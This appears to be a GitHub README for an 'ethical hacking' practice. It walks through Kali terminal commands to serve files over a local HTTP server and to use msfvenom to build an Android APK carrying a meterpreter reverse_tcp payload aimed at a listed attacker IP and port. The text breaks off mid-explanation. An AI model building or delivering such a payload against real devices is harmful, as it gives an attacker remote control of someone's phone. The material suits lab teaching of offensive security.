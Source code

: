# Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
┌──(kali㉿CarlosSantos)-[~]
└─$ `sudo -s`


#### We check what our hostname is
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `hostname -I`

#### We create a local server with python3
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.


 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`


1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***
